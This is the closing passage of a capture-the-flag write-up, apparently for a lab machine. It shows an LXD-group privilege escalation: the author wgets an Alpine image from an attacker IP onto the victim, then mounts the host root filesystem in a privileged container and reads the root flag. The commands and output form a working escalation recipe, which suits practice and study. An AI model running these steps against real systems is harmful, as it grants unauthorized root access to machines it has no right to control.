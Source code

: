 Back on the victim machine, I use wget to download the file.

```highlight
john@exploitable:~$ cd /tmp
john@exploitable:/tmp$ wget http://10.8.21.217/alpine-v3.12-x86_64-20200906_1552.tar.gz
--2020-09-06 14:55:47--  http://10.8.21.217/alpine-v3.12-x86_64-20200906_1552.tar.gz
Connecting to 10.8.21.217:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3109382 (3.0M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20200906_1552.tar.gz’

alpine-v3.12-x86_64-20200906_1552.tar 100%[========================================================================>]   2.96M  1.01MB/s    in 2.9s

2020-09-06 14:55:50 (1.01 MB/s) - ‘alpine-v3.12-x86_64-20200906_1552.tar.gz’ saved [3109382/3109382]

john@exploitable:/tmp$ 
```

Still following the steps from the article, I import the image and run, mounting the root file system.

```highlight
john@exploitable:/tmp$ lxc image import ./alpine-v3.12-x86_64-20200906_1552.tar.gz --alias myimage
Image imported with fingerprint: 4397c7dce96e22e14f6c108eebaeb629f21273dd5a7791754ad0a082c026b09c
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 4397c7dce96e | no     | alpine v3.12 (20200906_15:52) | x86_64 | 2.97MB | Sep 6, 2020 at 2:56pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
id~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root/
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
2e337b8c9f3a{{REDACTED}}
/mnt/root/root # 
```

We have the root flag! Thank you for reading.
